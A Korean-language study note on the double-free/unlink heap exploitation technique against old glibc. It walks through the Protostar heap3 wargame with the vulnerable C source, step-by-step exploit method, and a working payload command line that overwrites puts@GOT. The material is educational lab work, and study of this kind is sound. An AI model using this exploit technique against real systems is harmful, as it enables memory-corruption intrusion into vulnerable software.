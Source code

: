 # **Double Free Bug**

Free를 두 번할 경우 발생하는 버그이다.

Free가 호출될 때 인접한 Free Chunk가 있다면 더 큰 Free Chunk로 병합된다.

Chunk가 병합될 때 unlink 매크로가 발생한다. unlink 매크로를 통해 원하는 공간에 원하는 값을 입력할 수 있다.

unlink를 공격하는 방법은 glibc 2.3.2 버전 이하에서만 가능하다.

```c
#define unlink(P, BK, FD) {
    FD = P->fd;
    BK = P->bk;
    FD->bk = BK;
    BK->fd = FD;
}
```

```
FD = *P + 8;
BK = *P + 12;
FD + 12 = BK;
BK + 8 = FD;
```

![unlink](/Resources/img/double_free_bug_unlink.jpeg)

## **Proof of Concept**

### **Protostar의 heap3**

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
void winner()
{
  printf("that wasn't too bad now, was it? @ %d\n", time(NULL));
}
int main(int argc, char **argv)
{
  char *a, *b, *c;
  a = malloc(32);
  b = malloc(32);
  c = malloc(32);
  strcpy(a, argv[1]);
  strcpy(b, argv[2]);
  strcpy(c, argv[3]);
  free(c);
  free(b);
  free(a);
  printf("dynamite failed?\n");
}
```

strcpy(a,argv[1])에서 Overflow를 통해 b의 **P flag**와 **pre_size** 값을 변조한다.  

**P flag 변조**
* P flag가 0이라는 뜻은 b가 free될 때 a chunk와 병합이 일어난다는 뜻이다. 
* 따라서 P flag를 0으로 변조시키면 unlink 매크로가 발생한다. 
* unlink가 실행되면 fd가 가리키는 주소의 + 12 지점에 bk가 입력되고 bk가 가리키는 주소의 + 8 지점에 fd가 입력되어 임의의 주소에 원하는 값을 입력할 수 있다.

**pre_size 변조**
* Heap에서 이전 Chunk의 주소값은 "&b - pre_size"로 표현된다.
* pre_size 값을 0xfffffffc(-4)로 변조할 경우 &b + 4 byte가 된다.
* 생성한 가짜 Chunk는 우리가 입력할 수 있는 공간이기 때문에 fd와 bk를 조작할 수 있다.

### **Exploit Method**

1. a에 "push puts@got ; ret" 코드 삽입 및 \xfc\xff\xff\xff로 pre_size, size 변조
1. 가짜 Chunk의 fd 위치에 puts@got - 12를 삽입하고 bk에는 해당 code를 가리키는 주소값을 입력한다. 

## **Exploit**

```
root@protostar:/home/protostar# ./heap3 $(python -c 'print "\x90"*22+"\x68\x64\x88\x04\x08\xc3"+"A"*4+"\xfc\xff\xff\xff"+"\xfc\xff\xff\xff"') $(python -c 'print "A"*4+"\x1c\xb1\x04\x08"+"\x10\xc0\x04\x08"') C
that wasn't too bad now, was it? @ 1577555750
```

### **Add**

* DFB에서 .dtors + 4(소멸자)의 주소를 찾아 사용하는 것이 유리

**References**  
<http://index-of.co.uk/Reverse-Engineering/Double%20Free%20Bug%20%5Bseoty-_-v%5D.pdf>  
<https://medium.com/@airman604/protostar-heap-3-walkthrough-56d9334bcd13>  
<https://itsaessak.tistory.com/136> 